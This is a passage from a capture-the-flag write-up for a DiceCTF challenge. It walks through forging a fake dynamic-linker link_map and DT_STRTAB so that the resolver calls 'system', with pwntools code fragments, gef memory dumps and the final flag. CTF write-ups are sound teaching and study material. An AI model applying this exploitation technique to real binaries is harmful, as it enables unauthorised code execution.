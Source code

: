 So we will imitate it as following:

```
# Fake DT_STRTAB
buf_data += p64(5)
buf_data += p64(buf_addr)    # Fake STRTAB address, which then add with sym->st_name
assert(len(buf_data), 0x18)
```

Next, we will need to know sym->st_name:

```
gef➤  # x/3xg (SYMTAB) + (r_info >> 32 ) * 24               # (r_info >> 32 ) = symbol_number
gef➤  x/3xg 0x4002c0 + (0x000200000007 >> 32 ) * 24
0x4002f0:    0x0000001200000037    0x0000000000000000
0x400300:    0x0000000000000000
```

So we know that sym->st_name = 0x37 = 55 and our buf length now is just 24 (0x18), very well! So we can put string "system" at buf_data+55 and we've done:

```
buf_data = buf_data.ljust(55, b'\x00')
buf_data += b'system\x00'
```

And now turn back to create fake linkmap. At l_info[5], we will write fake DT_STRTAB and at l_info[6], we will write again the DT_SYMTAB (which is static inside and outside GDB) because scanf need to have whitespace to end, which will overwrite to l_info[6] and cause error:

```
linkmap_struct += p64(buf_addr + 8)        # l_info[5] = Fake DT_STRTAB
linkmap_struct += p64(0x600eb0)            # l_info[6] = Real DT_SYMTAB
```

Full code: [solve.py](solve.py)

# 4. Get flag

![get_flag.png](images/get_flag.png)

Flag is `dice{1nfin1t3_f1v3_lin3_ch4lls_f46297a09e671c6a}`

